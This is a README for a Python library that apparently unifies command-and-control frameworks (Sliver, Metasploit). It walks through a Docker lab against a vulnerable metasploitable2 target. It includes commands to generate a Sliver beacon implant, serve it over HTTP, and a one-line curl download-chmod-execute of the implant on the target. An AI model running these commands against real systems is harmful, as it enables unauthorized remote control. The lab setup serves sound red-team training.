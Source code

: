 # Eshu Python Library v5

Common Language Platform for multiple Command and Control Frameworks

## Testing Lab Setup
This is an environment using Docker with test targets to
demonstrate using the Eshu CLP Python Library.

### To Simply Start...
Start Daemonized services

```console
docker compose up -d --build
```

Then launch into the operator machine in one terminal
```console
docker exec -it operator /bin/bash
```

To test network connection to vulnerable machine(VM)
```bash
ping 10.1.1.3
nmap -l metasploitable2
```

#### Firstly, setting up Sliver Server
In one terminal (Sliver Server):
```bash
docker exec -it operator /bin/bash
sliver-server
> new-operator --name operator1 --lhost localhost
> multiplayer
```

#### Secondly, setting up Sliver Client instance
In second terminal (Sliver Client):
```bash
docker exec -it operator /bin/bash
sliver-client import operator1_localhost.cfg
sliver-client
> generate beacon --seconds 5 --jitter 0 --http 10.1.1.2 --os linux --arch amd64 --name testbeacon
> http	
```

#### Thirdly, set up server to transfer implant for exploitation
In third terminal (operator workspace):
```bash
docker exec -it operator /bin/bash
python -m http.server 8080
```

#### Fourth, download and run implant on vulnerable machine
In fourth terminal (metasploitable2):
```bash
docker exec -it metasploitable2 /bin/bash
curl -O http://10.1.1.2:8080/testbeacon && chmod +x testbeacon && sudo service apache2 stop && ./testbeacon
```
Check the sliver-client terminal to see the beacon connection.

#### Lastly, run main.py for simultaneous Metasploit and Sliver behavior
In the third terminal with the http server, ctrl-c once the GET request is made and run the following in workspace#:
```bash 
python eshuCLP/main.py
```

#### Clean Up
To stop all running containers
```console
docker compose stop
```

If stopped, start again with
```console
docker-compose start
```

To kill and remove all the running containers
```console
docker compose down
```